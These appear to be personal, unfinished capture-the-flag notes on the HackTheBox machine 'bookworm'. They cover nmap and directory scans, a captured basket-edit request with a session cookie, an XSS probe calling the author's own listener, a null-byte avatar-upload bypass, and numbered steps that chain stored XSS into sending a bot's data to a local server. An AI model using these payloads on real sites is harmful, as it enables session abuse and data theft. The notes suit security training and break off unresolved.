







Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-17 23:44 EDT
Nmap scan report for 10.10.11.215
Host is up (0.81s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 64.09 seconds


nmap -p22,80 -sCV 10.10.11.215 -oN targeted 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-17 23:49 EDT
Nmap scan report for 10.10.11.215
Host is up (0.36s latency).                                                                                          
                                                                                                                     
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 811d2235dd2115644a1fdc5c9c66e5e2 (RSA)
|   256 01f90d3c221d948306a4967a011c9ea1 (ECDSA)
|_  256 647d17179179f6d7c48774f8a216f7cf (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://bookworm.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.33 seconds

Looking at the site we go to login page



after /register

we look at a shop

aaa just added Through the Looking-Glass to their basket!

just now
Sally Smith just added The Hunting of the Snark: An Agony in Eight Fits to their basket!

just now

so Sally Smith is a user

/login                (Status: 200) [Size: 2040]
/register             (Status: 200) [Size: 3093]
/profile              (Status: 302) [Size: 28] [--> /login]
/shop                 (Status: 200) [Size: 11153]
/static               (Status: 301) [Size: 179] [--> /static/]
/Login                (Status: 200) [Size: 2034]
/logout               (Status: 302) [Size: 23] [--> /]
/basket               (Status: 302) [Size: 28] [--> /login]
/Register             (Status: 200) [Size: 3093]
/Profile              (Status: 302) [Size: 28] [--> /login]
/Shop                 (Status: 200) [Size: 11556]

we reach the /basket page

tried xss nothign happened

always try xss with a <image src="http://10.10.16.47:8000">

this worked
```
found
10.10.16.47 - - [18/Jul/2023 01:24:06] "GET /new HTTP/1.1" 404 -
```

when we look at ht ebooks added by the bots



<div class="row mb-2">
            <!-- 2377 --> // does this indicate the basket number?
            <div class="col-3"></div>
            <div class="col-9"><strong>Joe Bubbler</strong> just added <a href="/shop/6">The Pirate Woman</a> to their basket!<p class="mb-0 text-muted">1 minute ago</p></div>            
</div>

trying to forge an edit request for this

```
POST /basket/2377/edit HTTP/1.1
Host: bookworm.htb
Content-Length: 33
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://bookworm.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://bookworm.htb/basket
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJmbGFzaE1lc3NhZ2UiOnt9LCJ1c2VyIjp7ImlkIjoxNCwibmFtZSI6ImFhYSIsImF2YXRhciI6Ii9zdGF0aWMvaW1nL3VzZXIucG5nIn19; session.sig=kmagEFwIlOkM7KMvDRk57wvzgqI
Connection: close

quantity=1&note=
```



updating the avatar image successfull

had to add %00 in front og th epng

then we do xss calling the uploaded image



note updated:
```
<script src="/static/img/uploads/14"></script>

```

and we got the post request at




steps to do to get user flag:
1. get the bot id from page inspection
2. change the avatar with the mod_pdf_viewer.js, ensure that you add %00.png to the file and change the type to image/png at /profile
3. get the smae book as the bot
4. got to /basket, edit text
5. in the edit text add 
<script src="/static/img/uploads/14"></script> which points to the image
6. click on complete checkout while running the python server for collecting the post requests
7. you should have a sdatabase file with the password then

587

<script src="/static/img/uploads/14"></script>

most infuriatingly just when you think you may have had a break through
this comes in picture



problem with following this



